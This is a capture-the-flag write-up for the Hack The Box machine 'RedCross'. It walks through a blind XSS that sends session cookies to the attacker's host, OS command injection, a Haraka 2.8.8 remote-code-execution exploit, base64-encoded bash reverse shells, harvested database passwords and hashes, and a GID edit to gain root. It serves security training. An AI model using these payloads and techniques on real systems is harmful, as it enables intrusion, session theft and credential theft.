

# RedCross

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Medium |
| **Topics** | XSS, Haraka 2.8.8, Cookie Hijacking, Weak Permissions, PostgreSQL, GID Privilege Escalation |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

```bash
sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -v 10.10.10.113 -oN AllPorts
```

Result:

```markdown
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

TCP Full Scan: 

```bash
nmap -p22,80,443 -sCV -Pn -n -v 10.10.10.113 -oN FullScan
```

Result: 

```markdown
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:d3:85:f8:ee:b8:06:23:59:d7:75:8e:a2:37:d0:a6 (RSA)
|   256 89:b4:65:27:1f:93:72:1a:bc:e3:22:70:90:db:35:96 (ECDSA)
|_  256 66:bd:a1:1c:32:74:32:e2:e6:64:e8:a5:25:1b:4d:67 (ED25519)
80/tcp  open  http     Apache httpd 2.4.25
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://intra.redcross.htb/
|_http-server-header: Apache/2.4.25 (Debian)
443/tcp open  ssl/http Apache httpd 2.4.25
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://intra.redcross.htb/
| ssl-cert: Subject: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-03T19:46:58
| Not valid after:  2021-02-27T19:46:58
| MD5:   f95b:6897:247d:ca2f:3da7:6756:1046:16f1
|_SHA-1: e86e:e827:6ddd:b483:7f86:c59b:2995:002c:77cc:fcea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: Host: redcross.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Based on the scan, the server is using Virtual hosting, hence, we need to add the host record to the `/etc/hosts` before continuing witht the HTTP Scans. 

Note: All the requests redirect to the site: `https://intra.redcross.htb`

Web Inspection: `https://intra.redcross.htb`



Based on the output, this seems to be a typical login portal for employees. 

Web Fuzzing: 

```bash
wfuzz -c --hc=400,403,404 -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://intra.redcross.htb/FUZZ
```

Result: 

```bash
000000002:   301        9 L      28 W       327 Ch      "images"                                                                  
000000160:   301        9 L      28 W       326 Ch      "pages"                                                                   
000000400:   301        9 L      28 W       334 Ch      "documentation"                                                           
000001059:   301        9 L      28 W       331 Ch      "javascript"                                                              
000045226:   302        0 L      26 W       463 Ch      "https://intra.redcross.htb/"
```

After fuzzing the main website we found 4 additional folders. The `documentation` one seems to be the more interesting

However, after attempting to access each folder, we got a `Forbidden` error. 


Let’s try to enumerate again, but this time we will focus on the `documentation` folder and enumerating the most common extensions. 

1- Create a custom wordlist with the common document extensions such as: 

```bash
pdf
docx
xlsx
txt
```

2- Using Wfuzz we will try to fuzz the filename and the file extension, here is an example how: 

```bash
wfuzz -c --hc=400,403,404 -t 20 -w /path/to/wordlist1.txt -w /path/to/wordlist2.txt http://target_website/FUZZ.FUZ2Z

# --> wordlist1 will containg the filenames (we can use directory-2.3-small)
# --> wordlist2 will contain the file extensions (this is gonna be our custom wordlist)
```

3- Finall command: 

```bash
wfuzz -c --hc=400,403,404 -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -w file-extensions.txt https://intra.redcross.htb/documentation/FUZZ.FUZ2Z
```

After some minutes we will see one interesting file found: 

```bash
000000001:   200        259 L    1220 W     24694 Ch    "account-signup - pdf"
```

This result indicates that a file identified as `account-signup.pdf` is hosted in the path `https://intra.redcross.htb/documentation`

Let’s inspect the content of the document `account-signup.pdf`:


Based on the document content, it looks like to contain some kind of instructions for the website. 

Let’s send a request for credentials: 


After sending the request we got the following response: 


Let’s try to access the portal once again using those credentials:

```bash
guest:guest
```


However, we only got access as a Low privilege user: 


Let’s continue enumerating the subdomains:

```bash
wfuzz -c --hc=400,403,404 --hw=28 -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'https://redcross.htb' -H "Host: FUZZ.redcross.htb"
```

Result:

```bash
000000024:   421        12 L     49 W       407 Ch      "admin"                                                                   
000000373:   302        0 L      26 W       463 Ch      "intra"
```

As we can see, there is one additional subdomain identified as `admin`. However, we can see that it replied with a `HTTP 421 Error` which indicates that the request was directed to a server that is not able to produce a response.

Let’s try to inspect the subdomain: (remember to add the subdomain to the `/etc/hosts`)


We have another login portal. 

# Initial Access

There are 2 ways to get in: 

**#1 - PHP Cookie From Guest Account:** 

After finding the IT Admin Panel, we were required to log on, however, we are lacking of privilege credentials. However, we can try to log on using the `guest:guest` credentials previously generated. 


However, the server replied with a warning for not enough privileges:


Something we can do is to reuse the PHPID Session that we received after logging in `https://intra.redcross.htb`


Even though we had access as guest, the user was able to log on, which is not the case for the IT Admin login portal, in which we are not able to log on despite the valid credentials. 

Copy the PHP Session ID from the `intra.redcross.htb` guest session and paste it in the `admin.redcross.htb` session: (use Cookie Editor from firefox extension):


After pasting the reused PHP Session ID, just refresh the website: 


Success! We got access to the panel and even better, as an admin. 

**#2- Cross-Site Scripting (XSS) in the `contact`  from `https://intra.redcross.htb`**

We need to fuzz the fields in the contact form to determine which field is vulnerable to XSS

a- Subject Field


Did not work


b- Details field


Again, did not work


c- Contact phone/email field:


Success! It looks like that the request was sent


Now that we found a field that appears to be vulnerable to XSS, let’s verify if the user or admin is checking the requests we send, to do that, we can inject the instruction `document.location` or `src`. If we receive a GET request from the victim machine, then, it means that user is actively reading our requests. 

After testing some payloads from [PayloadAllTheThings - XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc) i found the following injection that worked: 

Blind XSS: 

```bash
"><script src="http://KALI-IP/something"></script>
```

After sending the request we received a GET request from the machine: 


This indicates that the user is actively reading the requests we send. 

Now, we can proceed with a Cookie Hijacking by creating a JavaScript file that when requested by the victim machine, it will read the instructions and return us the cookie value.

JS Code:  Create file with extension `.js` in kali with the following code inside, and make it available via Python HTTP server:

```bash
var request = new XMLHttpRequest();
request.open('GET', 'http://kali-ip/?cookie='+document.cookie, false);
request.send();
```

File and Python Server ready:


Request: 

```bash
"><script src="http://10.10.14.25/getcookie.js"></script>
```

After sending the request we will see 2 GET requests:

- First one for the retrieve of the file `js`
- Second one that was included as an instruction in the `js` file, the second one will give us the cookie (PHP Session).


As we can see, we got the cookie from the user. 

The cookie seems to be URL encoded, after decoding it we got the following fields:

```bash
PHPSESSID=0l38m58qobjrsoo7n7dv84n7i4; 
LANG=EN_US; 
SINCE=1692767809; 
LIMIT=10; 
DOMAIN=admin
```

Next  step is to replace the cookies in the browser (right click and inspect). We can replace the PHPSESSID and the SINCE values, as they seem to be different. 


Once updated, we just need to refresh the page (F5). 


Finally, we got access to the website. 

Note: we can use the same cookie session to log on in the portal `http://admin.redcross.htb`

---

As we can see. we have 2 admin options, we have `User Management` and `Network Access`

Checking the `User Management` option, it looks like we can create virtual users


Checking the `Network Access` option, it looks like we can add an IP to the whitelist


If we try to add an username, the server will reply with the credentials for that user:


Let’s try to add our Kali-IP to the whitelist option:


Now, since the SSH Port was enabled, let’s try to access the server via terminal SSH with the credentials provided: 

```bash
displa:3gT8XExu
```


Success! We got access to the machine, however, the shell is very restricted since we can only execute few commands, hence, we need to find another way to get it. 

Let’s go back to the admin panel, as we remember, the Network Access option asks for an IP, which is being added to a whitelist (probably using IPtables), however, we can try to fuzz this field by inserting OS Commands;

Let’s open Burpsuite and capture one of the requests for a whitelisting IP:


We can see the Request and the response

Let’s try with the “AllowIP” action:


Did not work, however, we can try with the “Deny” action:

Deny Action:


This time the OS injection worked, which will allow us to gain access to the remote server. 

Let’s create simple reverse shell (base64) from https://www.revshells.com/ and send it:

Request: 


After sending the request we should be able to receive a reverse shell to our kali: 


### Alternative Foothold

After adding the IP address of our attacker machine in the whitelist, we can run nmap again to discover new ports opened:

```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
1025/tcp open  NFS-or-IIS
5432/tcp open  postgresql
```

After completing the scanning we will see new ports opened listed as `21,1025,5432`

Let’s run a Full Scan agains those ports:

```bash
nmap -sCV -p21,1025,5432 -Pn -n -v 10.10.10.113 -oN FullScan_PostWhitelist
```

Result:

```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.0.8 or later
1025/tcp open  NFS-or-IIS?
5432/tcp open  postgresql  PostgreSQL DB 9.6.7 - 9.6.12
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=redcross.redcross.htb
| Subject Alternative Name: DNS:redcross.redcross.htb
| Issuer: commonName=redcross.redcross.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-03T19:13:20
| Not valid after:  2028-05-31T19:13:20
| MD5:   6774:29d2:6eca:29e1:fdd9:47e5:f365:5eeb
|_SHA-1: 7e9c:03e4:def6:2862:6dc9:b857:7f0f:43a5:ba11:7f2b
Service Info: Host: RedCross
```

Checking the port 21 didn’t reveal any relevant information as Anonymous Login is not enabled. 

However, after doing a simple banner grabbing using netcat we got the following information from the port `1025`


According to the output, there is an instance of ESMTP Haraka running on the server. 

```bash
ESMTP Haraka 2.8.8
```

Checking on `searchsploit` we will see an exploit that applies to the version installed: 


Exploit details:

```bash
Haraka < 2.8.9 - Remote Command Execution | linux/remote/41162.py
```

Use:

```bash
> python2.7 41162.py 
##     ##    ###    ########     ###    ##    ## #### ########  ####
##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##
##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##
######### ##     ## ########  ##     ## #####     ##  ########   ##
##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##
##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##
##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## ####

-o- by Xychix, 26 January 2017 ---
-o- xychix [at] hotmail.com ---
-o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --

-i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

usage: 41162.py [-h] -c CMD -t TO -m MAILSERVER [-f FROM]
41162.py: error: argument -c/--cmd is required
```

Based on the exploit usage info, we nered to pass a CMD argument, a target mail address and the mailserver address/host. 

Note: Since our targeted server is running the Haraka in port 1025, we need to modify the exploit to point to the proper port as it comes with port 25 configured by default. 
Edit the line #123:


Let’s try by executing a ping (ICMP) to our kali, if we receive the packet, it means we hace RCE:

```bash
python2.7 41162.py -c "ping -c1 10.10.14.12" -t displa@redcross.htb -m 10.10.10.113
```

Capture the ICMP packets with `tcpdump`

```bash
tcpdump -i tun0 icmp 
```

After executing the exploit we received the ICMP echo request, confirming the RCE: 


🚨Note: Please hold for a few seconds as the payload doesn’t get executed inmediately. 

Let’s create a reverse shell from https://www.revshells.com/ using the payload `Bash -i` and with encoding base64.

Payload to execute:

```bash
echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIvNDQ0NCAwPiYx | base64 -d | bash
```

Full Exploit Command: 

```bash
python2.7 41162.py -c "echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDQ0IDA+JjE=| base64 -d | bash" -t displa@redcross.htb -m 10.10.10.113
```

After executing the exploit we will get a reverse shell as penelope: 


# Privilege Escalation

After getting access to the victim machine, we can enumerate the system files to find any credential being stored as plain-text:

For instance, if we take a look at the path `/var/www/html/` which is the default installation path for the webserver, we will see the 2 main sites (`admin` and `intra`) that we previously enumerated: 


Checking the content for `admin` site, we will find a file identified as `init.php` which contains the configuration of the DB connection: 

```bash
cat init.php 
<?php
#database configuration
$dbhost='127.0.0.1';
$dbuser='dbcross';
$dbpass='LOSPxnme4f5pH5wp';
$dbname='redcross';
?>
```

Based on this information, we can try to connect to the DB `redcross` and check the tables for any possible credential. 

```bash
mysql -h localhost -u dbcross -D redcross -p
```

Since we are already connected to the db `redcross` we can start enumerating the tables:


The users tables seems to be the more promising one. 

Checking the contents of the table `users` we will the users and hash passwords for each one:


Credentials:

```bash
admin:$2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq.
penelope:$2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS
charles:$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i 
tricia:$2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r.
guest:$2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi
```

We can try to crack the hashes using John The Ripper: (saved the hashes in a txt file)

```bash
john creds.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After some minutes we only got the credential for charles:


Credential:

```bash
charles:cookiemonster
```

However, by checking the users with bash profile (home directory) we didn’t see the user `charles` as part of the system:


However we can check if the password is being reused on the other users, but, unfortunately it was not the case. 

Hence let’s continue enumerating more.

This time, we try with a simple grep search looking for any file that contains the word `password`:

```bash
grep -R "password"
```

Surprisingly we found more than one math


In summary, we found the following credentials for the database:

```bash
dbname=redcross user=www        password=aXwrtUO9_aa&
dbname=unix     user=unixnss    password=fios@ew023xnw
dbname=unix     user=unixusrmgr password=dheu%7wjx8B&
```

Let’s try to connect to the Database, in this case we need to use `postgresql` as the configuration file indicates `pg_connect`:

```bash
psql -h localhost -d database -U username 
```

After enumerating the contents of the database `unix` with the credentials `unixnss` we will find a password hash for another user identified as `tricia`

1- Enumerate tables:


2- Enumerate the contents of the table `passwd_table`:


This table seems to be the one associated with the IT Admin Panel:

Back to `https://admin.redcross.htb`


 

If we click on `User Management` we will see only one user added, which is `tricia` the same from the table:


We can see that the UID and GID matches from the table, confirming that table is connected to this portal. 

we had previously created a test user and then connected via SSH, however, we noticed that the shell was very restrictive. 

See: [If we try to add an username, the server will reply with the credentials for that user:](RedCross%2041e61f2e2d5b4fc8ba9603c484910943.md) 

Let’s add again a username and check the database to see if it gets updated: 


Credentials created:


Password: `bBB28cwl`

Check the table:


This confirms that our user was created, and also we can see that the home directory assigned is `/var/jail/home` which is a very restrictive directory. 

However, since we have access to the database, we can attempt to modify the GID (Group ID) of our username in order to elevate privileges. This is effective because we know the password to log on via SSH. 

But which GID should we use? 

For instance, if we check the file `/etc/group` and check the ID for the SUDO group in our kali, we will see that it has the ID `27`


This is commonly the same ID across all the linux distributions. 

Let’s update the GID with the following SQL statement: 

```bash
update passwd_table set gid=27 where uid=2020;
```

Note: the UID `2020` is our user, we are replacing the GID with `27`

Once we have updated the record, we can check again to see if it was successful:


Now, let’s try to access via SSH using our username created:

```bash
ssh displa@10.10.10.113
```

Execute a `sudo su` provide the password and we should be able to escalate privileges as `root`


[Owned RedCross from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/162)